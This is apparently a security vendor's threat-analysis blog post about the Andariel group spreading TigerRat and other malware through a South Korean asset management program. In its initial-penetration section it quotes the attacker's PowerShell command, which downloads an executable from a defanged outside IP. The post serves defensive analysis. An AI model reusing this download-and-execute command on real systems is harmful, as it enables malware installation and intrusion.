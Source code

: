 








 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By song.th  , November 20, 2023 

Circumstances of an Attack Exploiting an Asset Management Program (Andariel Group) 
The ASEC analysis team identified the circumstances of the Andariel group distributing malware via an attack using a certain asset management program. The Andariel group is known to be in a cooperative relationship with or a subsidiary organization of the Lazarus group.
The Andariel group usually launches spear phishing, watering hole, or supply chain attacks for initial penetration. There is also a case where the group exploited a central management solution during the malware installation process. Recently, the Andariel group has been exploiting vulnerabilities in many programs such as Log4Shell and Innorix Agent to attack targets in various corporate sectors in South Korea. [1]
Another asset management program was used in the recently identified attack. Additionally, an attack targeting MS-SQL Server was also identified at the same time. Malware strains installed through these attacks include not only TigerRat, but also various other types such as NukeSped variants, Black RAT, and Lilith RAT, an open-source malware strain. The attack targets were found to be South Korean communications companies and semiconductor manufacturers, similar to those in previous cases of attacks.
1. Initial Penetration
AhnLab Smart Defense (ASD) recently detected logs of a certain South Korean asset management program having installed the Andariel group’s malware. But of course, it cannot be determined from these logs alone whether these signify an attack that takes advantage of a vulnerability or a simple exploit. The asset management program running in the target system ultimately used the following PowerShell command to download the malware.

Figure 1. Malware downloaded using an asset management program


PowerShell command: wget hxxp://109.248.150[.]147:8585/load.png -outfile C:\Users\public\credis.exe

Besides PowerShell, the Andariel group also used the mshta.exe process to download malware. The following is HTML malware uploaded to the C&C URL, and this malware is responsible for downloading other malware strains from the Andariel group such as TigerRat.

Figure 2. Downloader script
